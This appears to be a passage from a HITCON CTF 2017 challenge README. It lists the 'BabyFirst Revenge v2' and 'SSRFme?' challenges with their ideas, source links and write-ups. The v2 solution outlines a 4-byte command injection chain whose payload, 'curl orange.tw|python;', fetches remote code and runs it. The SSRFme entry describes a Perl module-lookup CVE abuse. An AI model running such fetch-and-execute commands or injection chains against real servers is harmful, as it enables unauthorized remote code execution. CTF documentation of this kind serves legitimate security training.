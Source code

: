 

## **BabyFirst Revenge v2**
  
Difficulty: **★★★★**  
Solved: **8 / 1541**  
Tag:  **WhiteBox**, **PHP**, **Command Injection**  

#### Idea

* Command Injection, but only in **4** bytes  

#### Source Code

* [index.php](hitcon-ctf-2017/babyfirst-revenge-v2/index.php)  

#### Solution

1. generate `g> ht- sl` to file `v`
2. reverse file `v` to file `x`
4. generate `curl orange.tw|python;`
6. execute `x`, `ls -th >g`
7. execute `g`

You can check [exploit.py](hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py) for the detail!


#### Write Ups

* [Baby First Revenge v2 (Via vim) by @bennofs](https://github.com/bennofs/docs/blob/master/hitcon-2017/baby-first-revenge2.md)  
* [\[python\] baby-exp.py](https://codegists.com/snippet/python/baby-exppy_beched_python)  
* [How to solve a CTF challenge for $20 - HITCON 2017 BabyFirst Revenge v2](https://www.eugenekolo.com/blog/hitcon-babyfirst-revenge-v2/)  
* [HITCON CTF 2017 BabyFirst Revenge & v2 writeup](https://findneo.github.io/2017/11/HITCON-CTF-2017-Babyfirst-Revenge-series-writeup/)  



## **SSRFme?**
  
Difficulty: **★★☆**  
Solved: **20 / 1541**  
Tag:  **WhiteBox**, **Perl**, **PATH Pollution**  

#### Idea

* [CVE-2016-1238](https://perl5.git.perl.org/perl.git/commit/cee96d52c39b1e7b36e1c62d38bcd8d86e9a41ab) (But the latest version of Ubuntu 17.04 in AWS is still vulnerable)  
* Perl lookup current directory in module importing  
* Perl module [URI/lib/URI.pm#L136](https://github.com/libwww-perl/URI/blob/b7680860f323a0cf3ffe5f6bdb684646e1ecac33/lib/URI.pm#L136) will `eval` if there is a  unknown scheme

#### Source Code

* [index.php](hitcon-ctf-2017/ssrfme/index.php)  
